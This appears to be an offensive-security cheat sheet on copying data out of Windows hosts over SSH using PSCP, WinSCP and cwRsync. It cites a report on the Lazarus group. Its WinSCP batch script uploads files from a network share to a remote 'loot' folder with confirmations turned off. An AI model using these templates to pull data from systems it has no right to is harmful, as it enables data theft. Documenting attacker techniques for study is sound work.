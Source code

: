 # SSH

## 01 - PSCP

`C:\> pscp.exe -4 [-P <PORT>] -pw <password> <source> <username>@<IP>:<destination>`

## 02 - WinSCP

TODO: Fill this info

`$ cat commands.txt`

---

```
option batch continue
option confirm off
open sftp://<username>:<password>@<IP> -hostkey=<fingerprint> -rawsettings Compression=1
lcd "//<IP | computer_name>/<share_name>/path/to/directory/"
cd "/mnt/<loot | downloads>"
put "<directory>"
# synchronize remote -criteria=size
exit
```

`C:\> winscp.exe /script=commands.txt`

## 03 - CwRsync

### 2.1 - Setup

`C:\> curl -o cwrsync.zip https://itefix.net/dl/free-software/cwrsync_6.2.8_x64_free.zip`

```powershell
PS C:\> Invoke-Webrequest -UseBasicParsing -Uri https://itefix.net/dl/free-software/cwrsync_6.2.8_x64_free.zip -OutFile cwrsync.zip
Expand-Archive cwrsync.zip
Remove-Item cwrsync.zip
cd cwrsync/bin/
```

### 2.2 - Usage

`PS C:\cwrsync/bin> .\rsync.exe`

---
## References

- [Kaspersky ICS CERT Lazarus Targets Defense Industry with Threatneedle Report](https://ics-cert.kaspersky.com/media/Kaspersky-ICS-CERT-Lazarus-targets-defense-industry-with-Threatneedle-En.pdf)

- [WinSCP Command Line](https://winscp.net/eng/docs/commandline)

- [CwRsync](https://www.itefix.net/cwrsync)